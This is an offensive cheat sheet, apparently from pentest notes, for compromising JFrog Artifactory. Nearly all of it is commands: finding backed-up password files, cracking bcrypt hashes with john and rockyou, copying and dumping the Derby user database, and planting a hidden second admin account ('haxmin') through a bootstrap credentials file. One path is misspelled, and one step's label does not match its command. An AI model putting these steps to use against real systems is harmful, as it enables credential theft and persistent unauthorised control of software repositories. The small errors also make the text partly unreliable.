

# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
